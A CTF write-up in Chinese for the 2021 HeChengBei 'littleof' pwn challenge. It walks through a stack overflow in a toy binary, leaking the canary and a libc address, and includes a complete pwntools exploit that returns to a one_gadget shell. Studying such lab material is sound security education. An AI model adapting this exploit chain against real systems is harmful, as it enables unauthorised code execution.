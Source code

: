 # HeChengBei 2021 littleof

> 2021 “鹤城杯”河南·鹤壁CTF网络安全挑战赛 初赛 pwn
>
> challenge name: littleof
>
> file: littleof, libc-2.27.so
>
> ld227-3ubuntu1.so and .i64 with comments provided  可以不用看了，程序不长
>
> writeup writer: hexhex16@outlook.com    https://github.com/hex-16

程序存在明显栈溢出，移除长度很长，一次littleof的执行可以溢出两次，其中第一次溢出之后会输出一次，需要解决的主要问题就是泄露canary，libc基址(anti-ASLR)，没有开启PIE，可以直接rop到littleof再rop一次

主要过程：

1. littleof第一次执行：覆盖到刚好到canary，printf的时候就会输出canary值。第二次read就用泄露的canary覆盖，return addr填littleof的地址。后面再执行时canary不会改变，程序也没开启PIE
2. littleof第二次执行：第一次read时覆盖满buf，泄露stdin上的首地址，这个地址在libc上，与vmmap输出的libc基址偏移量不变，故可以计算出libc基址。第二次read时就覆盖canary，return addr填onegadget

# IDA Analysis

基本上什么都没做，就到主要逻辑：

```cpp
unsigned __int64 littleof()
{
  char buf[8]; // [rsp+10h] [rbp-50h] BYREF
  FILE *v2; // [rsp+18h] [rbp-48h]
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v2 = stdin; // 注意这里存了stdin 可以用于泄露libc基址
  puts("Do you know how to do buffer overflow?");
  read(0, buf, 0x100uLL);
  printf("%s. Try harder!", buf);
  read(0, buf, 0x100uLL);
  puts("I hope you win");
  return __readfsqword(0x28u) ^ v3;
}
```

# Onegadget

```bash
one_gadget libc-2.27.so
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)  # 解题时随便选的选了这个
constraints:
  [rsp+0x70] == NULL
```





# Exploit

```bash
from pwn import *

context.log_level = 'debug'
libc = ELF('./libc-2.27.so')
sh = process(["./ld227-3ubuntu1.so", "./littleof"], env={"LD_PRELOAD": "./libc-2.27.so"})
# sh = remote("182.116.62.85", 27056)
# === Step-1: leak canary
payload = b"deafbeef".ljust(0x48, b'a')
sh.sendlineafter("overflow?", payload)
data = sh.recvuntil(payload)
data = sh.recv()
canary = u64(data[:8]) - 0xa  # 注意这里的 - 0xa
rbp = u64(data[8:16])  # 实际上这里的rbp并不影响
print("canary==>", hex(canary))
payload = b"deafbeef".ljust(0x48, b'a') + p64(canary) + p64(rbp) + p64(0x00000000004006E3)

sh.sendline(payload)

# === Step-2: leak libc base addr, return to one_gadget
payload = b"xxxxxxxx"
sh.sendlineafter("overflow?", payload)
data = sh.recvuntil(payload)
data = sh.recv()
addr_leak = u64(data[:6].ljust(8, b'\0'))
print("data:", data, len(data))
print("addr_leak: ", type(addr_leak), hex(addr_leak))

libc.address = addr_leak - libc.sym['_IO_2_1_stdin_'] - 0xa
print("===>", hex(libc.address))
# one_gadget
payload = b"deafbeef".ljust(0x48, b'a') + p64(canary) + p64(rbp) + p64(libc.address + 0x10a41c)
sh.sendline(payload)
# gdb.attach(sh)  # gdb
sh.interactive()

```

